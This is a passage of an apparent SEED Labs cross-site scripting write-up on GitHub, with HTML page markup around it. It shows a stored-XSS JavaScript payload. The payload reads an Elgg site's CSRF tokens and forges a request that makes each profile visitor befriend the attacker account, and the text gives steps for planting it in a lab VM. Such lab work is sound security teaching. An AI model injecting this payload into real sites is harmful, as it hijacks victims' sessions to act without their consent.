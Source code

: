     <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">open</span><span class="pl-kos">(</span><span class="pl-s">"GET"</span><span class="pl-kos">,</span> <span class="pl-s1">sendurl</span><span class="pl-kos">,</span> <span class="pl-c1">true</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span><span class="pl-s">"Host"</span><span class="pl-kos">,</span> <span class="pl-s">"www.xsslabelgg.com"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">setRequestHeader</span><span class="pl-kos">(</span><span class="pl-s">"Content-Type"</span><span class="pl-kos">,</span> <span class="pl-s">"application/x-www-form-urlencoded"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-v">Ajax</span><span class="pl-kos">.</span><span class="pl-en">send</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
  <span class="pl-kos">}</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script type=&quot;text/javascript&quot;>
  window.onload = function () {
    var Ajax = null;
    var ts = &quot;&amp;__elgg_ts=&quot; + elgg.security.token.__elgg_ts;
    var token = &quot;&amp;__elgg_token=&quot; + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      &quot;http://www.xsslabelgg.com/action/friends/add?friend=47&quot; + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open(&quot;GET&quot;, sendurl, true);
    Ajax.setRequestHeader(&quot;Host&quot;, &quot;www.xsslabelgg.com&quot;);
    Ajax.setRequestHeader(&quot;Content-Type&quot;, &quot;application/x-www-form-urlencoded&quot;);
    Ajax.send();
  };
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Log in with username <code>samy</code> and password <code>seedsamy</code>.</p>
<p dir="auto">Add the code above in <code>Profile</code> -&gt; <code>About me</code> by <code>edit html</code> mode.</p>
<p dir="auto">Now on the VM <code>10.0.2.4</code>, sign in as Boby and visit Samy's profile(<a href="http://www.xsslabelgg.com/profile/samy" rel="nofollow">http://www.xsslabelgg.com/profile/samy</a>), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.</p>